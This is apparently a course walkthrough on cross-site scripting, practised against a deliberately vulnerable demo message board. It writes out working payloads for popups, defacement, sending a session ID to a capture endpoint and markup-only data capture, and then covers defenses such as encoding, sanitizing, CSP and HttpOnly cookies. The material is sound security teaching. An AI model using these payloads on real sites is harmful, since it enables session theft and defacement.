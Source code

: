 ```yaml
---
title: Cross-Site Scripting (XSS) Walkthrough
---
```

[Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) is a type of injection attack where scripts, links, or other malicious code are inserted into user-supplied content on a website. [OWASP](https://owasp.org/) considers "cross-site scripting" to be a misnomer since not all XSS attacks involve more than one website. Nevertheless, it is the industry-accepted name for this type of attack.

> **Warning:** Attempting to attack a website or computer system without authorization is illegal. While doing this walkthrough and experimenting with the website, you have permission to practice XSS exploits on [ScriptBoard.dicax.org](https://scriptboard.dicax.org). Nevertheless, you are **not** permitted to attack or seek vulnerabilities on the web host. You should use the knowledge you gain from these activities to make your own applications more secure. You should not use the knowledge and skills you gain to attack other sites without permission from the owners. ScriptBoard is designed to restrict your exploits to your own computer and session. You should not attempt to break into other users' sessions.

[ScriptBoard](https://scriptboard.dicax.org) simulates an online forum or message board with two special characteristics. First, it is vulnerable to XSS type exploits. Second, each session is restricted to viewing the messages posted from that session. In other words, you can only see your own messages. This is to keep you from posting exploits that would affect someone else.

Browse to [https://scriptboard.dicax.org](https://scriptboard.dicax.org){: target="_blank"}. You will see an empty message board. Write a message and click `Post` to see how it works.

The message board supports HTML so that you can format text. (You will exploit that later.) For now, post something benign like bolding some text.

```
Rise and <b>shout!</b>
```

Create a simple exploit by putting a popup message on the screen. This sort of thing is a quick way to test whether a site has XSS vulnerabilities.

```
<span onmouseover="alert('gotcha!')">My name is Scott!</span>
```

Hover over the new message and you should get an alert popup.

You can use some script to **deface** the site by changing text. A more sophisticated attack might even add images. Compared to what's possible, this one is relatively mild:

```
<b>Show me.</b>
<script>
document.getElementById("sitename").textContent = "Freefall Experience";
</script>
```

Notice that the title has changed. Of course, this walkthrough gave away that the needed element ID is `sitename` Suppose you didn't know the ID. You could find it by opening the inspector in the browser and locating the appropriate element in the HTML tree.

You can retrieve data from other sites and insert it. Here's an example that gets a scripture from our [Scripture of the Day service](https://scripture.dicax.org) and inserts it into the message board.

```
<span id="xss43"></span>
<script>
fetch("https://scripture.dicax.org/api/second")
    .then((response) => response.json())
    .then((json) => document.getElementById("xss43").textContent = json.text);
</script>
```

More damaging would be to steal data from a site and post it somewhere else. ScriptBoard has a URL for capturing information at [https://scriptboard.dicax.org/Capture](https://scriptboard.dicax.org/Capture). Anything you put in the query string or the POST data will be captured and you can view all captures by browsing to [https://scriptboard.dicax.org/ViewCaptures](https://scriptboard.dicax.org/ViewCaptures). (A `Captures` link is in the upper-right.)

The page has a hidden element storing the `Session ID`. Retrieve that data and send it to the capture URL like this:

```
<script>
fetch("/Capture?sessionId=" + document.getElementById("sessionId").textContent);
</script>
No exploit here. Nope, definitely not!
```

Now look at the ViewCaptures page (by clicking `Captures` in the upper-right) to see what has been collected. Of course, a real exploit would send captured data to a different server that is controlled by the attacker.

Scripting doesn't have to be enabled to successfully apply an XSS attack. In the following example we deliberately fail to close quotes on an image link. The browser will treat everything following this post up to the next quote as part of the query string. And, since the link is to the `Captures` URL the data will be captured. After putting this in a post, go check [ViewCaptures](https://scriptboard.dicax.org/ViewCaptures) to see what it found.

```
Hello.<img src="/Capture?data=
```

One common way to prevent XSS attacks is to HTML encode all user-provided content. While doing so doesn't support using HTML tags for rich text, it ensures that no malicious code can be injected. ScriptBoard has a "safe" version of the main page that does just that; HTML Encode all user-supplied data. Click the `Safe` link in the upper-right menu to see all of the posts without exploits.

## On Your Own

You can experiment with other XSS exploits on the site. Try to do the following, or come up with your own exploits:

* The page has some JavaScript that will unscramble a hidden message. Make that message appear somewhere or send it to the captures.
* Display the hidden `sessionId` value instead of capturing it.
* Steal the cookie and send it to the captures. (Note: The real session cookie is protected from JavaScript. The one you can find with an exploit is a simulated session cookie.)
* Change colors or fonts.

> **Remember:** You are authorized to experiment with exploits on your own ScriptBoard session. While the server doesn't have known cross-session vulnerabilities we still don't authorize you to attempt breaking into the server or accessing other sessions.

## Protecting Against XSS Attacks

There are three direct ways to protect against Cross-Site Scripting Attacks:
* Do not accept user-supplied content.
* Encode user-supplied content
* Sanitize user-supplied content
* Make use of protections in your web framework

The simplest approach is to design your application in such a way that no user-supplied content is accepted. Of course, that eliminates any kind of social media site not to mention tools like the task list we build in this class.

User-supplied content can be HTML encoded on the server side. On the browser side you can the `textContent` or `innerText` properties to ensure that user-supplied content is treated as plain text and not interpreted as HTML. This is a common method but it does not allow rich text such as bold, font changes, colors, and so forth.

A more difficult approach is to sanitize user-supplied content to allow some HTML while prohibiting embedded scripts, ensuring that all tags are closed, and so forth. Doing so requires some sophisticated code that can parse and validate HTML and then remove prohibited tags and properties. If you want to take that approach, it is best to use an existing and tested sanitizing library. Careful implementations can even allow embedded content like the Scripture of the Day example while still protecting against exploits. This can be done by using an [<iframe>](https://www.w3schools.com/tags/tag_iframe.asp) element with settings that keep the embedded content within an isolated sandbox.

Most web frameworks have built-in tools to help combat XSS vulnerabilities. You should be aware of the XSS protections afforded by your framework and use them properly. For example, PHP is notorious for not HTML encoding by default (most other frameworks encode by default). Nevertheless, it offers the [htmlspecialchars()](https://www.geeksforgeeks.org/how-to-prevent-xss-with-html-php/) function which should be used liberally.

### Second Lines of Defense

Tools that provide secondary protection include:
* Content-Security-Policy Header
* HttpOnly Cookie Setting

The [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) HTTP header controls what the browser will allow a page to do. It can restrict the domains from which images and scripts can be retrieved, control the domains that can be accessed by [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API), disable scripts altogether, and much more. It is often used with [<iframe>](https://www.w3schools.com/tags/tag_iframe.asp) to create a restricted sandbox for user-supplied content.

The [HttpOnly](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#httponly) cookie setting prevents JavaScript from having access to a particular cookie. In this demo, we used `HttpOnly` to protect the real session cookie while exposing a fake sample to JavaScript.

## Other Resources
* [OWASP Cross-Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) (An excellent, authoritative source.)
* [OWASP Cross-Site Scripting Page](https://owasp.org/www-community/attacks/xss/)
* [Preventing Cross-Site Scripting in PHP](https://www.geeksforgeeks.org/how-to-prevent-xss-with-html-php/)
* [MDN Cross-Site Scripting](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS)